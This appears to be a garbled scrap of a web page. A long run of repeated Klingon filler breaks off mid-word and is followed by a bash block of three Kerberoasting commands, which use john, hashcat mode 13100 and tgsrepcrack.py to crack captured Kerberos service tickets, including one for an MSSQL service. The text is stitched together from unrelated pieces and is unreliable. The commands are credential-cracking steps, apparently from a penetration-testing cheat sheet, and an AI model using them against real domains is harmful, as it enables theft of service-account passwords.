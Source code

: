 vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'o
```bash
john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```
### QaD

